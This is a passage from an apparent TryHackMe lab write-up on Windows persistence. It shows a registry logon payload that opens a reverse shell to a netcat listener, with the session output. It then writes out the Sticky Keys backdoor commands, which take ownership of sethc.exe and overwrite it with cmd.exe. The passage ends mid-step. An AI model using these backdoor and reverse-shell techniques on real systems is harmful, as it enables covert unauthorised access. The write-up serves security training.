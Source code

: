 
![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Regedit%20Open.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Regedit%20Current%20User%20Environment%20.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Regedit%20Current%20User%20Environment%20pt2.png)

10. After we've successfulle execute the previous tasks and commands, we'll log out and then log back into the compromised Windows machine, which ended up executing our payload and creating a reverse shell that connected back to our attack machine's active netcat listener

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Sign%20Out.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Reconnect.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Windows%20RDP%20Reconnected.png)

```Bash
root@ip-10-10-157-221:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.236.33 49969 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

11. `C:\flags\flag13.exe` from the reverse shell on our attack machine to run the **flag13.exe** program, which ended up containing this task's flag and displaying it onto our terminal
```PowerShell
C:\Windows\system32>C:\flags\flag13.exe
C:\flags\flag13.exe
THM{USER_TRIGGERED_PERSISTENCE_FTW}
```


# Backdooring the Login Screen / RDP

## Stickey Keys

1. Started this room's machine
2. `takeown /f c:\Windows\System32\sethc.exe` from the compromised Windows machine to take ownership, which we're doing as Administrator, of the **sethc.exe** (Secure Attention Sequence Even Handler Controller) program, which is associated with the Stickey Keys feature in Windows that you can activate by pressing the **SHIFT** key on a keyboard five times if it's active
```PowerShell
C:\Users\Administrator>takeown /f c:\Windows\System32\sethc.exe

SUCCESS: The file (or folder): "c:\Windows\System32\sethc.exe" now owned by user "WPERSISTENCE\Administrator".
```
3. `icacls C:\Windows\System32\sethc.exe /grant Administrator:F` from the compromised Windows machine to grant the Administrator full control to the **sethc.exe** program, which allowed us to modify the executable binary that will execute after activating Sticky Keys by pressing the **SHIFT** key on our keyboard five times
```PowerShell
C:\Users\Administrator>icacls C:\Windows\System32\sethc.exe /grant Administrator:F
processed file: C:\Windows\System32\sethc.exe
Successfully processed 1 files; Failed processing 0 files
```
4. `copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe` from the compromised Windows machine to replace the **sethc.exe** file with the **cmd.exe** file so that when the user activates Sticky Keys, it'll execute the **cmd.exe** program instead, which will launch the compromised Windows machine's command prompt that we'll use to execute the **flag14.exe** program 
```PowerShell
```